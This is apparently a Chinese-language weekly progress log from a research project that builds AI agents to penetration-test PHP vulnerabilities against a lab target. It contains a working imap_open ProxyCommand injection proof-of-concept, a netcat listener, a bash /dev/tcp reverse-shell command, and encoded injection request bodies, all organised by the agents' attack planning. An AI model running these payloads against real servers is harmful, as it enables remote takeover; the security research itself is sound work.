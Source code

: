 # 250702

这周主要在针对php类漏洞进行测试，目标是获得执行reverse shell，获得目标靶机终端的控制权。

## 实验部分

比较官方的cve攻略链接里可能只有比较简单的example，但是我觉得应该至少攻击要执行到获取到目标靶机shell端的控制权的程度

![1751465457751](https://file+.vscode-resource.vscode-cdn.net/d%3A/School/%E7%BB%84%E4%BC%9A/Agent-Penetration-Testing/Jiamei%20Chi/Markdown_Files/image/250702/1751465457751.png)

![1751465042166](https://file+.vscode-resource.vscode-cdn.net/d%3A/School/%E7%BB%84%E4%BC%9A/Agent-Penetration-Testing/Jiamei%20Chi/Markdown_Files/image/250702/1751465042166.png){

## Search Agent

- 工具类的参数整理效果还行: `nc -nvlp {port}

  ```json
  {
  "tool_name": "nc (Netcat)",
  "tool_description": "A versatile networking utility used for reading from and writing to network connections using TCP or UDP. Commonly used for setting up reverse shells or listening on ports.",
  "tool_usage": "nc -lvnp {port}",
  "comment": "# -l : Listen mode, used to wait for an incoming connection\n# -v : Verbose output (optional)\n# -n : Numeric-only IP addresses, no DNS\n# -p 4444 : Port number to listen on (can be changed by replacing 4444 with your desired port)\n\n# Example: Change the listening port to 1234\nnc -lvnp 1234"
  }
  ```
- 脚本类的参数整理效果很不行，但是送到 `Generate Agent`那边推理过后可能最后能生成一个正确的脚本，效果不稳定

  ![1751465415250](https://file+.vscode-resource.vscode-cdn.net/d%3A/School/%E7%BB%84%E4%BC%9A/Agent-Penetration-Testing/Jiamei%20Chi/Markdown_Files/image/250702/1751465415250.png)

  ```json
  {
    "tool_name": "imap_open exploit script",
    "tool_description": "A proof-of-concept PHP script that exploits the imap_open function to execute arbitrary shell commands even when functions like exec are disabled, by injecting a malicious mailbox string with ProxyCommand.",
    "tool_usage": "<?php\n\n//{base64-encoded payload}",
    "comment": "Example payload: echo '123456789'>/tmp/test0001 encoded as: ZWNobyAnMTIzNDU2Nzg5Jz4vdG1wL3Rlc3QwMDAxCg==\n\n$server = \"x -oProxyCommand=echo\\tZWNobyAnMTIzNDU2Nzg5Jz4vdG1wL3Rlc3QwMDAxCg==|base64\\t-d|sh\";\n\n
  // Use imap_open to trigger the payload via ProxyCommand injection\nimap_open('{'.$server.':143/imap}INBOX', '', '') or die(\"\\n\\nError: \".imap_last_error());"
  }
  ```

## Planning Agent 

启用搜索的时机还要再规划一下

```json
PTT examples

4. reverse shell
  4.1 crafting a reverse shell request
    4.1.1 base64 encode(completed)
        echo 'echo "/bin/bash -i >& /dev/tcp/192.168.137.33/4444 0>&1" > /tmp/123' | base64
    4.1.2 modify request(completed)
        hostname=x+-oProxyCommand%3decho%09ZWNobyAnMTIzNDU2Nzg5MCc%2bL3RtcC90ZXN0MDAwMQo%3d|base64%09-d|sh}&username=111&password=222
  4.2 crafting a request to trigger the reverse shell
    4.2.1 base64 encode
  4.2 reverse shell
    4.2.1 local listening(completed)
        nc -lvp 4444
    4.2.1 crafting a request to trigger the reverse shell
        4.2.1.1 base64 encode(completed)
              echo '/bin/bash /tmp/123' | base64
        4.2.1.1 modify request(completed)
              hostname=x+-oProxyCommand%3decho%09ZWNobyAnMTIzNDU2Nzg5MCc%2bL3RtcC90ZXN0MDAwMQo%3d|base64%09-d|sh}&username=111&password=111

```
